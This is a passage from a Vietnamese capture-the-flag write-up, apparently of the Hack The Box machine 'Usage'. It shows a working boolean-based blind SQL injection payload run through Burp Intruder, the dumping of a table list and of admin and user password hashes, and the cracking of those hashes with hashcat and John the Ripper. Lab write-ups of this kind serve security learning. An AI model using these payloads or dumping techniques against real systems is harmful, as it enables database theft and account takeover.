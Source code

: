 Kết quả của payload trên trả về 302 có nghĩa là đúng, độ dài của version mysql lớn hơn 20 ký tự. Tiếp tục fuzz đến khi nào ra độ dài chính xác thì thôi. => độ dài chính xác là 23
Mục tiêu chính của mình đâu phải chỉ tìm version đâu đúng k ? Cho nên việc xác định độ dài chỉ để chứng minh rằng idea sửa payload của mình thành công. Tiếp tục với idea đó mình sẽ đi tìm tất cả các table có trong db `mysql`.
Với payload dưới đây mình sẽ sử dụng intruder của burp để bruteforce từng ký tự với độ dài 371 cho mỗi vị trí của các table có trong db `mysql`. Payload: ` AND EXTRACTVALUE(9050,CASE WHEN ((select substr(group_concat(table_name),1,1) from information_schema.tables WHERE table_schema != 'information_schema')='g') THEN 9050 ELSE 0x3A END) AND 'iBUN'='iBUN`.

![Screenshot](/assets/htb/Screenshot 2024-10-14 at 15.42.19.png)

Ngol lành, sếp xếp lại 1 tý để có full table thôi nào.
Và đây là danh sách table có trong db `mysql` mà mình vừa dump được.
`global_status,global_variables,persisted_variables,processlist,session_account_connect_attrs,session_status,session_variables,variables_info,admin_menu,admin_operation_log,admin_permissions,admin_role_menu,admin_role_permissions,admin_role_users,admin_roles,admin_user_permissions,admin_users,blog,failed_jobs,migrations,password_reset_tokens,personal_access_tokens,users`
Từ đây mình sẽ focus vào 2 table `admin_user` và `users` đầu tiên đến xem húp được gì không. Tiếp tục tìm column và dump data 2 table đó.
> Column name table users: `id,name,email,email_verified_at,password,remember_token,created_at,updated_at`
> Column name table admin_users: I`d,username,password,name,avatar,remember_token,created_at,updated_at`
> Bảng `admin_users` chỉ có đúng một dòng với user,pass: `admin:$2y$10$ohq2klpbh/ri.p5wr0p3uomc24ydvl9da9h1s6ooomgh5xvfuprl2`

Đã có pass dạng hash, mình k biết đây là dạng mã hoá nào. Thôi thử cứ để hashcat detect xem sao. Nhưng trước tiên tôi sẽ thử với các công cụ online trước.

![Screenshot](/assets/htb/Screenshot 2024-10-14 at 23.44.28.png)

Công cụ crack online bảo mình rằng đây là một bcrypt nhưng nó k crack được. Thôi thì mình sẽ thử với công cụ thần thánh hashcat xem sao.
Sau gần 3 tiếng ngồi crack bằng hashcat nhưng vẫn không nhận được kết quả, mình chuyển sang hướng tim các user thường xem có idea gì mới không.
Quay lại với bảng `users`.
> Đã tìm được thông tin các user trong bảng `users`

```
raj@raj.com:$2y$10$7almtteyfrvd8rnyep/ck.bsfkfxfsltplkyqqsp/tt7x1wapjt4.
raj@usage.htb:$2y$10$rbncgxpwp1hspo1gqx4upo.pdg1nszoi/uhwhvfhddfdfo9vmdjsa
a@gmail.com:$2y$10$40rwm43ejd7p04jgtvdm7exuw1ygu7thg5r6bwmtwgmkiegpg.zay
b@gmail.com:$2y$10$nctkiwzoakyk0jhvstkhfonm6qvoeoodklb8ymisv69bwhgsyjko6
```
Ngoại trừ 2 account `a` và `b` mình tạo ra thì còn lại 2 account `raj@raj.com` và `raj@usage.htb`. Thử crack bcrypt của nó xem như thế nào ?
Hashcat chạy quá lâu, mà mình quên mất ngoài hashcat ra thì vẫn còn john ripper thần thánh. Chuyển qua sử dụng john xem có tiến triển gì hơn khum.

![Screenshot](/assets/htb/Screenshot 2024-10-15 at 10.00.40.png)

Trời thật không phụ lòng người, cuối cùng cũng crack được pass admin. Login tìm đường RCE thôi nào !!!!
